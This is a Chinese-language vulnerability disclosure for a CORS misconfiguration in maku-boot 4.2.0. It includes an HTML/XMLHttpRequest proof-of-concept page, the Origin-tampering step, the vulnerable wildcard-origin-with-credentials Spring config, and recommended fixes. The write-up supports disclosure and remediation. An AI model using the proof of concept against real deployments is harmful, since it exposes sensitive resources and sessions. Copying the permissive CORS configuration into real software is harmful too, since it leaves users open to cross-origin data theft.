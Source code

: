 # maku-boot 4.2.0 CORS 

## 漏洞

```
https://gitee.com/makunet/maku-boot
```

maku-boot 4.2.0版本存在CORS漏洞，攻击者能够通过表单发送请求直接访问到敏感资源，造成敏感资源泄露。有可能还会造成会话劫持。

首先抓取登录包，重放，修改Origin为123.com

![image-20240614201224665](maku-boot/image-20240614201224665.png)

可以基本判断存在CORS，测试一下，写一个html

```html
<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>GET Request</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            margin: 20px;
        }
        .response {
            margin-top: 20px;
            padding: 10px;
            border: 1px solid #ccc;
            background-color: #f9f9f9;
            white-space: pre-wrap;
        }
    </style>
</head>
<body>
    <h1>GET Request</h1>
    <button id="getRequestButton">Send GET Request</button>
    <div id="response" class="response"></div>

    <script>
        document.getElementById('getRequestButton').addEventListener('click', function() {
            const xhr = new XMLHttpRequest();
            const url = 'http://127.0.0.1:3000/src/api/auth.ts';

            xhr.open('GET', url, true);

            // 设置必要的请求头
            xhr.setRequestHeader('Accept', 'application/json, text/plain, */*');
            xhr.setRequestHeader('Accept-Language', 'zh-CN');

            xhr.onreadystatechange = function () {
                if (xhr.readyState === 4) {
                    const responseDiv = document.getElementById('response');
                    if (xhr.status === 200) {
                        responseDiv.innerText = `Response: \n${xhr.responseText}`;
                    } else {
                        responseDiv.innerText = `Error: ${xhr.status} ${xhr.statusText}`;
                    }
                }
            };

            xhr.send();
        });
    </script>
</body>
</html>
```

发送请求

![image-20240614205311932](maku-boot/image-20240614205311932.png)

前端配置信息配置信息  `/vite.config.ts`

![image-20240614205632761](maku-boot/image-20240614205632761.png)

由于本项目是前后端分离项目，危险性降低，但是可以在白盒情况下通过代码直接搜索全部路由，黑盒disearch搜集一级路由，获取全部前端源码。可以获取到后端的端口及接口，尝试直接对后端进行访问。

## 修复建议

对net.maku.framework.common.config.CorsConfig#corsFilter中

```java
        final UrlBasedCorsConfigurationSource source = new UrlBasedCorsConfigurationSource();
        final CorsConfiguration corsConfiguration = new CorsConfiguration();
        corsConfiguration.setAllowCredentials(true);
        corsConfiguration.addAllowedHeader("*");
        corsConfiguration.addAllowedOriginPattern("*");
        corsConfiguration.addAllowedMethod("*");
        source.registerCorsConfiguration("/**", corsConfiguration);
        return new CorsFilter(source);
```

这段代码做出修改，限制跨域请求允许的方法，限制浏览器缓存期限，定义源的白名单，避免将`Access-Control-Allow-Credentials`标头设置为`true` 替换值